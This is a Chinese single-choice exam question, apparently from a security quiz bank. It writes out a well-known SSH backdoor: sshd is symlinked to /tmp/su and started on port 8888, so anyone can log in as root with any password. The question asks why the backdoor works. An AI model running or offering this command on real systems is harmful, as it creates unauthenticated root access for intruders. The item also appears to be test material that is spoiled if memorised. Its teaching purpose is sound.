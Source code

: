 【单选】执行：`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888`，执行完之后，任何一台机器`ssh root@IP -p 8888`，输入任意密码，成功登录。 问：该后门为什么能够任意密码登陆？

A. sshd 不指定配置文件启动时，所有账号均可任意密码登陆   
B. sshd 因为被链接到/tmp目录，由于文件权限原因，可任意密码登陆   
C. sshd 因为被链接为/tmp/su，由于pam模块认证原因，可任意密码登陆   
D. sshd 因为被链接到/tmp目录，由于位置发生变化导致无法找到/etc/shadow文件因此放行登陆请求   
